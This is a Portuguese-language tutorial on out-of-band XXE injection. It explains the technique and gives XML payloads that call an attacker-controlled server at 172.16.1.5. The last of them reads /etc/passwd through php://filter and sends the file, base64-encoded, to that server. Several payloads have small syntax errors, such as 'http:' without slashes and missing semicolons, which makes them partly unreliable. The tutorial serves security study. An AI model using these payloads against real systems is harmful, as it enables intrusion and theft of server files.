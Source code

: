 
o XXE OOB ocorre quando uma aplicação processa um arquivo XML de maneira insegura e permite que um atacante faça a requisição de uma entidade externa, mas, ao invés de retornar a resposta diretamente, o servidor envia os dados para um destino externo controlado pelo atacante.

Primeiramente vamos começar abrindo um servidor na nossa máquina e manipular o XML para se comunicar com nosso servidor para confirmar a existencia de XXE.
```
<!DOCTYPE crowsec
[
<!ENTITY test SYSTEM "http://172.16.1.5:8080/test">
]
<root>&test</root>
```
Dentro XML é possivel fazer com que uma entidade tenha um parametrô e não um valor:
```
<!DOCTYPE crowsec
[
<!ENTITY test SYSTEM "http://172.16.1.5:8080/test">
%test;
]
<root>saavreeddd</root>
```
 No XML é possível ler arquivos e pegar o output e colocar dentro de uma entidade, então dentro do XML vamos ler um arquivo de dentro do nosso servidor e salvar seu conteúdo dentro de uma entidade no XML entidade;
Dentro do nosso payload vamos concatenar entidades:
```
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % payload "<!ENTITY remote SYSTEM 'http:172.16.1.5:8000/?leak=&file;'>">
```
Objetivo é concater a entidade file com a entidade remote e rodar a entidade remote, pois ela vai executar o comando system enviando o conteudo de /etc/passwd para nosso servidor. Porem quando passamos uma entidade dentro de outra, qualquer caracter especial reservado para entidades, ele precisa para por um processo de HTML encode numerico.
```
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % payload "<!ENTITY &#37; remote SYSTEM 'http:172.16.1.5:8000/?leak=&file;'>">
&payload
```